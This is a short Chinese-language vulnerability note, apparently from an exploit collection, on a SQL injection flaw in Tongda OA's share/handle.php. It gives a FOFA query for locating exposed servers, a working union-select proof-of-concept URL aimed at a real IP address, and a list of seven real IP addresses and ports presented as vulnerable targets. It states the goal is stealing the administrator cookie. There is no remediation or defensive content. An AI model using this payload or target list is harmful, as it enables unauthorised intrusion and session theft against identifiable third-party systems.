# 通达 oa share handle.php sql注入漏洞

    ## fofa

```
app="TDXK-通达OA"
```

## poc

```
http://60.190.185.74:88/share/handle.php?_GET[module]=1'+and+1={%60='%60+1}+and+1=0+union+select+(select/**/version())--+%27
```

## 例子

```
http://1.202.216.130:3199/share/handle.php?_GET[module]=1''
http://120.76.73.200:70/share/handle.php?_GET[module]=1''
http://124.88.210.76:888/share/handle.php?_GET[module]=1''
http://183.250.243.227:8001/share/handle.php?_GET[module]=1''
http://218.16.142.55:8888/share/handle.php?_GET[module]=1''
http://218.70.17.86:88/share/handle.php?_GET[module]=1''
http://60.190.185.74:88/share/handle.php?_GET[module]=1''
```

通过sql注入获取管理员cookie，

![img](https://article-images.zsxq.com/FspUaNedlri2e_Kx7ZyiDTzWOUZO)
